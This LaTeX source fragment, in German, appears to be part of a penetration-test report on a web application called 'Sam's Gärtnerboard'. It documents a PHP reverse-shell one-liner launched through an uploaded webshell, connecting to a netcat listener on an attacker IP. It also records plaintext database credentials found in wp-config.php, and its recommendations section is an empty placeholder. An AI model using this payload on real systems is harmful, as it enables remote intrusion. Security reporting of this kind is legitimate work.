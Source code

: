 
\section{\makecvssbadge Sam's Gärtnerboard: Reverse Shell und Remote Code Execution (RCE)}

\subsection*{Proof of concept}
Über die hochgeladenen Webshell kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listener auf dem Angreifer-System mit dem Befehl \texttt{nc -lvp 9001} gestartet werden. Mit dem Befehl aus \autoref{listing:sams-gaertnerboard:reverse-shell} kann sich die Shell auf dem Netcat-Listener verbinden. 


\begin{listing}[!ht]
\begin{verbatim}
php -r '\$sock=fsockopen("10.0.32.2",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{verbatim}
\caption{Reverse Shell}
\label{listing:sams-gaertnerboard:reverse-shell}
\end{listing}

\subsection*{Empfehlungen}
Empfehlungen


\section{\makecvssbadge Sam's Gärtnerboard: Klartext-Datenbankzugang}

\subsection*{Proof of concept}
Durch den zuvor erlangten administrativen Zugriff auf die Webanwendung "Sams's Gärtnerboard" konnten die Zugangsdaten für den Zugriff auf die dazugehörige Datenbank erlangt werden. Diese befinden sich in der Datei \texttt{wp-config.php}. Die Credentials liegen im Klartext vor und sind nicht verschlüsselt.

